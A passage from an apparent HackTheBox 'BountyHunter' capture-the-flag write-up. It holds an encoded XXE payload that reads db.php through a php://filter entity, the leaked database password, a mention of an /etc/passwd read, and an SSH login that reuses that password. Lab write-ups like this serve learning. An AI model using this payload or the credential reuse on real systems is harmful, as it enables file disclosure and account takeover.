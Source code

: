 ```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4NCjwhRE9DVFlQRSBmb28gWyA8IUVMRU1FTlQgZm9vIEFOWSA%2bDQo8IUVOVElUWSByYWNjb29uIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1kYi5waHAiID5dPg0KCQk8YnVncmVwb3J0Pg0KCQk8dGl0bGU%2bJnJhY2Nvb247PC90aXRsZT4NCgkJPGN3ZT48L2N3ZT4NCgkJPGN2c3M%2bPC9jdnNzPg0KCQk8cmV3YXJkPjwvcmV3YXJkPg0KCQk8L2J1Z3JlcG9ydD4%3d
```

When I send the payload I get back the decoded information: 

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

<h2>SSH</h2>

From my **/etc/passwd** file read test I know development has a home directory and I could try this password with their account.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/BountyHunter]
└──╼ $ssh development@10.10.11.100
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 09 Feb 2023 01:11:00 AM UTC

  System load:           0.09
  Usage of /:            24.3% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             213
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2457


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$ 
```
